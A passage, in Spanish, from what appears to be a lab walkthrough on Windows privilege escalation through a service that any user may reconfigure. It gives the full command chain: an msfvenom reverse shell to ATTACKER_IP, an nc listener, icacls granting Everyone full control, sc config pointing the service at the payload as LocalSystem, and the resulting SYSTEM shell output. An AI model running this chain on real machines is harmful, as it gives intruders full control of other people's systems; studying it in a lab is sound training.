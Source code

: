Aquí podemos ver que el `BUILTIN\\Users`grupo tiene el permiso SERVICE\_ALL\_ACCESS, lo que significa que cualquier usuario puede reconfigurar el servicio.

Antes de cambiar el servicio, construyamos otro shell inverso de servicio .exe e iniciemos un detector en la máquina del atacante:

```shell-session
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

user@attackerpc$ nc -lvp 4447
```

Luego transferiremos el ejecutable del shell inverso a la máquina de destino y lo almacenaremos en `C:\Users\thm-unpriv\rev-svc3.exe`. Siéntete libre de usar wget para transferir tu ejecutable y moverlo a la ubicación deseada. Recuerde otorgar permisos a todos para ejecutar su carga útil:

```shell-session
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

Para cambiar el ejecutable asociado al servicio y la cuenta, podemos usar el siguiente comando (tenga en cuenta los espacios después de los signos iguales cuando use sc.exe):

```shell-session
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj=LocalSystem
```

Tenga en cuenta que podemos usar cualquier cuenta para ejecutar el servicio. Elegimos LocalSystem porque es la cuenta con mayor privilegio disponible. Para activar nuestra carga útil, todo lo que queda es reiniciar el servicio:

```shell-session
C:\> sc stop THMService
C:\> sc start THMService
```

Y recibiremos un shell en la máquina de nuestro atacante con privilegios de SISTEMA:

```shell-session
user@attackerpc$ nc -lvp 4447
Listening on 0.0.0.0 4447
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM
```
